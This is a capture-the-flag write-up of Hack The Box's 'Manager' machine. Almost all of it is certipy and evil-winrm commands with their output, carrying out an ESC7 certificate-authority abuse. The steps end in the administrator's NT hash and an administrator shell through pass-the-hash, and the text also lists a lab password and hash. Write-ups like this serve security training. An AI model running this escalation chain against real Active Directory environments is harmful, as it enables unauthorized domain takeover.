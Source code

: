 # Explanation
After finding the vulnerable certificate, I decided to follow the hacktricks guide for ESC7 and I got the commands in line below. After following all the steps, I got the hash of the administrator user which is then what I used to perform pass the hash vulnerability to get access to admin account.

# rdate & timedatectl
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# rdate -n 10.10.11.236 && timedatectl set-ntp 0                                          
Wed Nov 22 08:15:50 EST 2023
 
```

# Add raven to officer
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

# Request Certificate
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# certipy req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 31
Would you like to save the private key? (y/N) y
[*] Saved private key to 31.key
[-] Failed to request certificate
```

# Issue Failed Certificate
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# certipy ca -ca 'manager-DC01-CA' -issue-request 31 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'                                                    
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

# Retrieving certificate to get administrator.pfx
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# certipy req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 31
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '31.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

# Authenticate using administrator.pfx
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

# Access
```
┌──(root㉿kali)-[~/…/Notes/hackthebox/Manager/certificates]
└─# evil-winrm -u administrator -H 'ae5064c2f62317332c88629e025924ef' -i manager.htb                
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
```